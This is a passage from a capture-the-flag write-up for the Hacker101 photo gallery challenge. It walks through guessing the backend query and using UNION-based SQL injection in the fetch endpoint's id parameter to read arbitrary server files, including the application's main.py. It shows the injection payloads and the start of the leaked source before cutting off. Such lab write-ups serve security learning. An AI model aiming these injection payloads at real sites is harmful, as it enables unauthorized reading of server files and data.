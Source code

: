 ```bash
```

Now we know the tables and columns and we can have an idea of how the server works. I would bet the query triggered from `/fetch?id=<id>` is something like:

```sql
SELECT filename FROM photos where id = <id>; 
```

This implies that the server loads whatever filename it gets from the database and sends it back to the client. Can we load other files besides our images? Let's keep this in mind after investigating the third entry in the `photos` table.

The query to `id` number `3` returns `500` because that file seems to be missing. Lucky for us that missing file is our first flag!

## Arbitrary file loading

Let's get back to our hypothesis that we can load files from our server. Would it be possible to load any file using a query like the one below?

```sql
SELECT filename FROM photos where id = 4 UNION SELECT '<our file>'; 
```

Let's try it with `files/adorable.jpg ` since we know this file exists. I'm also using `id` as `4` because we know this `id` doesn't exist in our table.

```sql
https://<subdomain>.ctf.hacker101.com/fetch?id=4 UNION SELECT 'files/adorable.jpg'; --
```

And we got our status `200` answer as expected! The only problem is that we don't know how the files in our application are named. 

At this point I got a bit lost and had to get hints for this challenge, the one that helped me the most was:

```bash
This application runs on the uwsgi-nginx-flask-docker image
```

Which pointed me to: [https://github.com/tiangolo/uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker). 

According to this docker image we are running python and we usually have an `app` directory with files named:
* `uwsgi.ini`
* `main.py`

So I started querying for `main.py`  we get the file:

```
https://<subdomain>.ctf.hacker101.com/fetch?id=?id=4 UNION SELECT 'main.py'; --
```

And inspecting the source code of the page allow us to read the contents of our `main.py` file:

```python
from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess
app = Flask(__name__)
home = '''
<!doctype html>
<html>
	<head>
		<title>Magical Image Gallery</title>
	</head>
	<body>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
	</body>
```